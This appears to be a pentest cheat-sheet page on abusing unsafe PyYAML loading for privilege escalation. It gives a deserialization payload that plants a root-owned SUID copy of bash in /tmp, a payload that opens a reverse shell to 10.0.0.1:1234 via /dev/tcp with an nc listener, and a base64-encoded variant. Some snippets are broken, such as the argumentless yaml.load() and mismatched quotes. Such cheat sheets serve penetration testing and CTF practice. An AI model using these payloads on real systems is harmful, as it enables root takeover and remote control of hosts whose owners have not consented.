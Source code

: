 ```yaml
---
title: Python Yaml Privilege Escalation
description: Python Yaml package is vulnerable to execute arbitrary command.
tags:
    - Privilege Escalation
refs:
    - https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation
date: 2023-03-26
draft: false
---
```


## Investigation

```python
import yaml

filename = "example.yml"
yaml.load()
```

<br />

## Payloads

```python
import yaml
from yaml import Loader, UnsafeLoader

data = b'!!python/object/new:os.system ["cp `which bash` /tmp/bash;chown root /tmp/bash;chmod u+sx /tmp/bash"]'
yaml.load(data)
yaml.load(data, Loader=Loader)
yaml.load(data, Loader=UnsafeLoader)
yaml.load_all(data)
yaml.load_all(data, Loader=Loader)
yaml.load_all(data, Loader=UnsafeLoader)
yaml.unsafe_load(data)
```

Now execute the **`bash`** in privilege mode.

```bash
/tmp/bash -p
```

### Reverse Shell

Start a listener in local machine.

```bash
nc -lvnp 1234
```

Then execute Python script that contains the following `YAML` code as root.

```python
import yaml
yaml.load('!!python/object/new:os.system ['bash -c "bash -i >& /dev/tcp/10.0.0.1/1234 0>&1"'])
```

### Base64 Encoding

Sometimes we might be able to remote code execution by using Base64 encoded payload.

```python
yaml.load(b64decode(b"ISFweXRa...YXNoIl0="))
```